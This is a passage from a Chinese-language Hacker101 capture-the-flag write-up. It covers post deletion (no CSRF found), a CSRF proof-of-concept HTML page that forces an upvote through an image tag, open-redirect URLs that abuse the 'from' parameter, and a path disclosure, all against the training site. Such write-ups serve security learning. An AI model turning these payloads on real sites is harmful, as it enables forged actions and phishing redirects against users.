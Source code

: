 *   删帖（无效）
    
    把 id 换成被人的，提示不能删除。这个功能不存在 csrf。
    
    ![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517925099885.png)
    

*   点赞
    
    点赞呢？csrf 点赞。
    
    首先，不存在重复点赞的情况。（重放攻击，刷赞）
    
    只要指定 id 就能为别人刷赞，这也应该一个是 csrf 吧！firefox 有效，chrome 无效。
    
    ```
    <html>
    
    <head>
    <title>Test CSRF </title>
    </head>
    <body>
    	<img src="http://levels-a.hacker101.com/levels/4/vote?change=1&type=Story&id=4721001476653056&from=https://levels-a.hacker101.com/levels/4/" alt="none" />
    </body>
    
    </html>
    ```
    
    ### [](#Unchecked-Redirects "Unchecked Redirects")Unchecked Redirects
    

理论：[http://blog.csdn.net/quiet_girl/article/details/50616927](http://blog.csdn.net/quiet_girl/article/details/50616927)

```
http://levels-a.hacker101.com/levels/4/vote?change=1&type=Story&id=4721001476653056&from=http://www.google.com

https://levels-a.hacker101.com/levels/4/delete?id=6324050641027072&type=Story&from=https://www.google.com
```

在投票、删帖之后需要跳转后原来的页面，但可以修改 from 的值。由于没有任何检查，从而实现重定向到任意的 url。

### [](#Systemic-Information-Disclosures "Systemic Information Disclosures")Systemic Information Disclosures

绝对路径泄露，不知道算不算？

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519655383819.png)

### [](#Improper-Identity-Handling "Improper Identity Handling")Improper Identity Handling

[](#level-5 "level 5")level 5
-----------------------------
